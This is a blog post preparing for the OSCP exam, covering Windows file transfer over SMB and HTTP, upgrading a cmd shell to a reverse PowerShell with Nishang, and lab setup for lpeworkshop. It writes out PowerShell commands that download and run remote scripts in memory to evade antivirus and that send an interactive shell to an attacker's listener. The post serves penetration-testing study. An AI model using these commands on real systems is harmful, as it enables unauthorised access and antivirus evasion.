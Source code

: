 ```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.
{: .text-justify}

---
## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 
- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).
- Start the SMB server by running `smbserver.py`:  
![image-center](/assets/images/oscp/1/smbshare.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.
- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:  
![image-center](/assets/images/oscp/1/smbshare1.png)
- For more convenience, this SMB share can be  mounted directly on the windows as a drive:
	- Check currently mounted shares by running `net use`:
	- Mount your `myshare` as drive `Z` (or any other letter) using the command
	`net use Z: \\<IP>\myshare`
		![image-center](/assets/images/oscp/1/smbmount.png)
- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)
- The mount can be disconnected with command `net use Z: /d` and deleted with `net use Z: /delete` once you are done with it.   
{: .text-justify}

Another easy way to transfer files is over http using python's SimpleHTTPServer or Apache. We will take a look at it and download files using PowerShell in the following section.
{: .text-justify}

---
## PowerShell

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Two of the most useful modules that I came across were: [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)   
{: .text-justify}

While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation scripts.
1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)
{: .text-justify}

### Upgrading to PowerShell from cmd using Nishang

The `Invoke-PowerShellTcp.ps1` can be used to get an interactive Reverse or Bind PowerShell from the target. This script is able to connect to an attacker's netcat listener using -Reverse switch or an attacker's netcat can connect to this script Bind to a specific port on the victim when using -Bind switch. For this exercise, we are assuming that you already have access to the victim (web command injection or a cmd shell using eternalblue/any other exploit) and will look at how this cmd shell can be upgraded to an interactive reverse PowerShell.
{: .text-justify}

### Method 1: Using HTTP (Can evade Windows AV)

We will share our `Invoke-PowerShellTcp.ps1` over http, download it to the victim, and execute it inside memory to send a reverse PowerShell.
1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)
2. Start netcat listener on your Kali (always prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).
3. On the victim, we can download and execute this script using command: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`   
![image-center](/assets/images/oscp/1/httpps2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/httpps3.png) 
5. This script can also be used to setup a bind shell on the victim using `-Bind` switch but I preferred using reverse shells in the PWK lab.
{: .text-justify}

### Command breakdown

Let's see the breakdown:   
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:
1. `-nop` or `NoProfile` : This option means that the currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : This is used to specify a command to be executed.
	- `"iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))` : This part of the command downloads the `Invoke-PowerShellTcp.ps1` file.
	- `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"` : These are the arguments passed to `Invoke-PowerShellTcp.ps1` module. More arguments or examples can be seen on Nishang's github.
	- Pro tip: you can append the `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <port>` to your `Invoke-PowerShellTcp.ps1`. Example:
		![image-center](/assets/images/oscp/1/Invoke-ps1.png)
	This way, your final command for reverse shell would just be downloading and invoking the module, you don't have to pass the arguments anymore. Final command:   
	`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))`
{: .text-justify}


### Method 2: Using SMB (Gets blocked by Windows AV)

While this method is convenient for sharing multiple files over smb, but since we are executing `Invoke-PowerShellTcp.ps1` from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 
1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver. 
2. Start netcat listener on Kali.
3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/ps2.png)
(Note: I disabled windows AV for this exercise)
4. This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)
{: .text-justify}

---

## lpeworkshop
For the setup, we need three things:
1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 
2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)
3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)  
{: .text-justify}

[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. A few exercises will not be setup (1,9,11,13) as those are platform specific and are not included in the setup script.
{: .text-justify}

In the next part, we will go through the exercises from lpeworkshop and see how we can indentify and exploit the vulnerabilties with the help of `PowerUp.ps1` 

---
## Additional resources

- [Windows PrivEsc using powershell](https://hacknpentest.com/windows-privilege-escalation-using-powershell/)
- [lpeworkshop walkthrough by J3rryBl4nks](https://github.com/J3rryBl4nks/LPEWalkthrough)